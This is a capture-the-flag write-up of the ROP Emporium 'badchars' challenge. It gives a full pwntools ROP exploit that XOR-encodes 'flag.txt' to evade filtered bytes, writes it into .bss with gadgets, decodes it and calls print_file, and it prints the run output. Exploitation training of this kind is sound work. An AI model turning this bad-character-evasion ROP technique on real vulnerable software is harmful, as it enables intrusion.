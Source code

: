 # badchars Writeup

## Steps:
1. Run badchars. Similar to the previous problem, our general plan is to write to memory then call `print_file()` with `flag.txt` as the argument, but we cannot write `x g a .`
```
$ ./badchars
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> AAAA
Thank you!
```

2. Analyze in ghidra.

Notice function `usefulFunction` is the same as write4
```
void usefulFunction(void)

{
  print_file("nonexistent");
  return;
}
```
We identify the address of `print_file` to be `0x400510`
```
                             **************************************************************
                             *                       THUNK FUNCTION                       *
                             **************************************************************
                             thunk undefined print_file()
                               Thunked-Function: <EXTERNAL>::print_file
             undefined         <UNASSIGNED>   <RETURN>
                             <EXTERNAL>::print_file                          XREF[1]:     print_file:00400510(T), 
                                                                                          print_file:00400510(c)  
        00602018                 ??         ??

```
3. Determine where to write the string - below we see that the `.data` and `.bss` sections have read and write permissions
```
$ rabin2 -Sg badchars 
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
ERROR: Missing bin header dwarf
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7e 0x004003c0   0x7e -r-- STRTAB      .dynstr
7   0x0000043e   0x14 0x0040043e   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000458   0x20 0x00400458   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000478   0x30 0x00400478   0x30 -r-- RELA        .rela.dyn
10  0x000004a8   0x30 0x004004a8   0x30 -r-- RELA        .rela.plt
11  0x000004d8   0x17 0x004004d8   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x192 0x00400520  0x192 -r-x PROGBITS    .text
14  0x000006b4    0x9 0x004006b4    0x9 -r-x PROGBITS    .fini
15  0x000006c0   0x10 0x004006c0   0x10 -r-- PROGBITS    .rodata
16  0x000006d0   0x44 0x004006d0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000718  0x120 0x00400718  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- STRTAB      .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

4. Like write4, look for a `mov [reg], reg` to write somewhere in memory and a way to `pop` into the registers it uses. And, we will need a `pop rdi` to send the argument to the `print_file` function. In addition, we need a `xor` to change the string in memory.
>rdi:    First Argument
>
>rsi:    Second Argument
>
>rdx:    Third Argument
>
```
$ ROPgadget --binary write4 | grep 'mov'
0x0000000000400634 : mov qword ptr [r13], r12 ; ret

$ ROPgadget --binary write4 | grep 'pop'
0x000000000040069b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret

$ ROPgadget --binary badchars | grep 'xor' 
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
```
5. Write a function to xor all the characters in `flag.txt`. We will also have to undo this after it is placed in memory.
6. Create the payload:
   - 40 bytes of garbage
   - pop string (after xor-ing it), address of bss into r12 and r13
   - mov [r15], r14
   - in a loop, xor each element of the string in bss
     + pop key, bss into r14 and r15
     + xor [r15], r14
   - pop addr of bss into rdi
   - call print_file
```
from pwn import *


badchars = ['x','g','a','.']

def xor_string(string, key):
    xored = []
    for s in string:
        char = chr(ord(s) ^ key)
        xored.append(char)
    return ''.join(xored)

key = 2
xored = xor_string("flag.txt", key)



p = process('./badchars')

payload = b"A" * 40


pops = 0x40069c
mov = 0x400634
xor = 0x400628
pop = 0x4006a3

pwnme = 0x400500
print_file = 0x400510
bss = 0x601038

x = 0xdeadc0dedeadc0de

# write XORed data
payload = b"A" * 40
payload += p64(pops) + xored.encode() + p64(bss) + p64(x) + p64(x)
payload += p64(mov)

# Inverse XORed data
for i in range(8): 
    payload += p64(pops) + p64(x) + p64(x) + p64(key) + p64(bss + i)
    payload += p64(xor)

# Call print_file
payload += p64(pop)
payload += p64(bss)
payload += p64(print_file)

p.sendline(payload)

print(p.recvall().decode())
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './badchars': pid 21692
[+] Receiving all data: Done (112B)
[*] Process './badchars' stopped with exit code -11 (SIGSEGV) (pid 21692)
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
                            
